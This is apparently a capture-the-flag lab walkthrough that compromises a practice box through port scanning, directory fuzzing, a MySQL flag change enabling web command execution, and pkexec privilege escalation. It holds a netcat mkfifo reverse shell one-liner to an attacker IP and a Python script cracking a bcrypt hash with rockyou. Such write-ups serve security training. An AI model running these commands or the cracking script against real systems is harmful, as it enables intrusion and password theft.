### Open Ports 
```bash
rustscan -a 10.10.187.118 -- -A

Open 10.10.187.118:80
Open 10.10.187.118:3306
Open 10.10.187.118:4444
Open 10.10.187.118:5000

PORT     STATE SERVICE REASON         VERSION
80/tcp   open  http    syn-ack ttl 60 Apache httpd 2.4.29 ((Ubuntu))
| http-methods: 
|_  Supported Methods: HEAD GET POST OPTIONS
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
3306/tcp open  mysql   syn-ack ttl 60 MySQL 5.7.33-0ubuntu0.18.04.1
| mysql-info: 
|   Protocol: 10
|   Version: 5.7.33-0ubuntu0.18.04.1
|   Thread ID: 4
|   Capabilities flags: 65535
|   Some Capabilities: Support41Auth, SwitchToSSLAfterHandshake, IgnoreSpaceBeforeParenthesis, IgnoreSigpipes, Speaks41ProtocolOld, Speaks41ProtocolNew, SupportsCompression, InteractiveClient, ConnectWithDatabase, ODBCClient, SupportsTransactions, FoundRows, LongPassword, DontAllowDatabaseTableColumn, SupportsLoadDataLocal, LongColumnFlag, SupportsMultipleStatments, SupportsAuthPlugins, SupportsMultipleResults
|   Status: Autocommit
|   Salt: aw?nIZI\x13BC\x1D/\x11C\x15qj\x16Ui
|_  Auth Plugin Name: mysql_native_password
| ssl-cert: Subject: commonName=MySQL_Server_5.7.33_Auto_Generated_Server_Certificate
| Issuer: commonName=MySQL_Server_5.7.33_Auto_Generated_CA_Certificate
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2021-02-11T23:12:30
| Not valid after:  2031-02-09T23:12:30
| MD5:   0b70:1b5f:166e:4269:32e3:01be:40f8:f6e7
| SHA-1: 2866:e1ef:d280:9bcf:6cec:b15c:27b7:af15:cde1:f92b
| -----BEGIN CERTIFICATE-----
| MIIDBzCCAe+gAwIBAgIBAjANBgkqhkiG9w0BAQsFADA8MTowOAYDVQQDDDFNeVNR
| TF9TZXJ2ZXJfNS43LjMzX0F1dG9fR2VuZXJhdGVkX0NBX0NlcnRpZmljYXRlMB4X
| DTIxMDIxMTIzMTIzMFoXDTMxMDIwOTIzMTIzMFowQDE+MDwGA1UEAww1TXlTUUxf
| U2VydmVyXzUuNy4zM19BdXRvX0dlbmVyYXRlZF9TZXJ2ZXJfQ2VydGlmaWNhdGUw
| ggEiMA0GCSqGSIb3DQEBAQUAA4IBDwAwggEKAoIBAQDRCvq9/K5fEQO0juxe6NG4
| zjV1A5DR/lgWgraEiLmYANxmlN4MY6dy79NnaeCI8fRSjergQIJzFbNWc5mfm6NC
| E3eaLq2X9eN7+KdR2q7VNjJ/fF3D7k4ewa0GnBNGbC2AyoYrFKXxAN6qGU831qU4
| aMNcNCAXcJqqF4rW+3Vjlj8h2/ZkYkRJsVUEz5k6esNYRsVPu7JSFkRLE4lV8Xg9
| vL9arCA9BgR4sE1FqI7mA9DLUcoEZlJXwgl67oad5sxW+GPuZeUF4jF583C8vBhN
| WRtHWPytjQLe69N8BTthbdabtyQI2HMBEGSEDF6U2AJj8OiC3AXUs3L9p//hL/1p
| AgMBAAGjEDAOMAwGA1UdEwEB/wQCMAAwDQYJKoZIhvcNAQELBQADggEBAHPpnm2k
| 2U9nkklYcE0M2LEWyQE8IJozVMLMZ3KvuTF49+eUGXUeEvoJQnOi6P5ELvc57gGY
| 5QcAdpmqAbdE6vA1jnvK825LCl/L1zpsqXpkj4gu5Znavl2Rs0wXvhGhlj3PlNQu
| SKoSi+s729CulT6OU+JV9NDIOQlzoSfHCHo02t0D006dnx1ko1J/CtWqFi6mPF8u
| jqb87kTDBtMPXEO9OKrWKKjxBBQlVAIgu+VAn3TfeEX5moOZO84Uv7ul6GuJ2Xg3
| J4tSOB1aj0YJcgRXPbYXXf8AgOnMMXv18ZW1x49P5Yro58JyjioZiY7d9bHArRy5
| nuBjGrsuWRNAqBM=
|_-----END CERTIFICATE-----
|_ssl-date: TLS randomness does not represent time
4444/tcp open  krb524? syn-ack ttl 60
| fingerprint-strings: 
|   GetRequest: 
|     Can you decode this for me?
|     ZXh0cmVtZXNlY3VyZXJvb3RwYXNzd29yZA==
|     Wrong Password
|   NULL, SSLSessionReq: 
|     Can you decode this for me?
|_    ZXh0cmVtZXNlY3VyZXJvb3RwYXNzd29yZA==
5000/tcp open  upnp?   syn-ack ttl 60
| fingerprint-strings: 
|   NULL: 
|     OpenSSH 5.1
|_    Unable to load config info from /usr/local/ssl/openssl.cnf
2 services unrecognized despite returning data. If you know the service/version, please submit the following fingerprints at https://nmap.org/cgi-bin/submit.cgi?new-service :
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port4444-TCP:V=7.95%I=7%D=1/13%Time=67844D18%P=x86_64-pc-linux-gnu%r(NU
SF:LL,41,"Can\x20you\x20decode\x20this\x20for\x20me\?\nZXh0cmVtZXNlY3VyZXJ
SF:vb3RwYXNzd29yZA==\n")%r(GetRequest,4F,"Can\x20you\x20decode\x20this\x20
SF:for\x20me\?\nZXh0cmVtZXNlY3VyZXJvb3RwYXNzd29yZA==\nWrong\x20Password")%
SF:r(SSLSessionReq,41,"Can\x20you\x20decode\x20this\x20for\x20me\?\nZXh0cm
SF:VtZXNlY3VyZXJvb3RwYXNzd29yZA==\n");
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port5000-TCP:V=7.95%I=7%D=1/13%Time=67844D12%P=x86_64-pc-linux-gnu%r(NU
SF:LL,46,"OpenSSH\x205\.1\nUnable\x20to\x20load\x20config\x20info\x20from\
SF:x20/usr/local/ssl/openssl\.cnf");
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 4.X
OS CPE: cpe:/o:linux:linux_kernel:4.15
OS details: Linux 4.15
```
Fuzzing in port 80 I got:<br/>
```bash
ffuf -u http://10.10.247.138/FUZZ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 100 -e .php,.txt,.bak,.zip

instructions.txt        [Status: 200, Size: 339, Words: 39, Lines: 14, Duration: 239ms]
hidden                  [Status: 301, Size: 315, Words: 20, Lines: 10, Duration: 238ms]
whatever                [Status: 301, Size: 317, Words: 20, Lines: 10, Duration: 240ms]
```

`/instructions.txt` <br/>
<br/>

`/hidden` <br/>
<br/>

`/whatever`<br/>


Using the credentials found in instructions.txt I logged in to mysql and look for the databases and tables. In runornot database I found runcheck table with column run. I replace the value 0 with 1.<br/>
```bash 
mysql -u runcheck -h 10.10.247.138 -P 3306 -p --skip-ssl
Enter password: 
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MySQL connection id is 20
Server version: 5.7.33-0ubuntu0.18.04.1 (Ubuntu)

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Support MariaDB developers by giving a star at https://github.com/MariaDB/server
Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MySQL [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| runornot           |
+--------------------+
2 rows in set (0.457 sec)

MySQL [(none)]> use runornot;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MySQL [runornot]> show tables;
+--------------------+
| Tables_in_runornot |
+--------------------+
| runcheck           |
+--------------------+
1 row in set (0.316 sec)

MySQL [runornot]> select * from runcheck;
+------+
| run  |
+------+
|    0 |
+------+
1 row in set (0.321 sec)
MySQL [runornot]> update runcheck set run=1 where run=0;
Query OK, 1 row affected (0.317 sec)
Rows matched: 1  Changed: 1  Warnings: 0

MySQL [runornot]> select * from runcheck;
+------+
| run  |
+------+
|    1 |
+------+
1 row in set (0.253 sec)
```

Then it allowed me to execute commands in `/whatever`  <br/>
<br/>

Using the following command I got the reverse shell <br/>
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.17.17.146 4444 >/tmp/f
```
<br/>

In root directory I have found an interesting folder<br/>
 <br/>
Inside that folder I discovered a password hash  <br/>
 <br/>
So the password is encrypted according to the given code. I have used the following decryption code to decrypt the hash. <br/>

```python3
  GNU nano 8.4                                                                   hash_decrypt.py                                                                             
import bcrypt
import base64
# The stored bcrypt hash from pass.py output
stored_hash = b'$2b$12$LJ3m4rzPGmuN1U/h0IO55.3h9WhI/A0Rcbchmvk10KWRMWe4me81e'
# Path to the rockyou.txt wordlist
rockyou_path = "/usr/share/wordlists/rockyou.txt"
# Open and read rockyou.txt for potential matches
try:
    with open(rockyou_path, 'r', encoding='latin-1') as f:
        for line in f:
            password = line.strip()
            # Base64 encode the password to match the format
            b64_password = base64.b64encode(password.encode('ascii'))
            if bcrypt.checkpw(b64_password, stored_hash):
                print(f"Match found! The password is: {password}")
                break
        else:
            print("No match found in rockyou.txt")
except FileNotFoundError:
    print("rockyou.txt file not found. Please verify its path.")
```

And obtained the password. <br/>
 <br/>
Inside adam's Desktop I have found this <br/>
<br/>
`https://www.google.com/maps/@68.5090469,27.481808,3a,75y,313.8h,103.6t/data=!3m6!1e1!3m4!1skJPO1zlKRtMAAAQZLDcQIQ!3e2!7i10000!8i5000`
Following the link I found <br/>
<br/>
Using reverse image search I found the location `northern lights` <br/>
<br/>
Using password `northernlights` I logged in as mason. <br/>
Then I searched for suid binaries. <br/>
<br/>
suid bit was set to pkexec. Using it I got the root. <br/>
<br/>
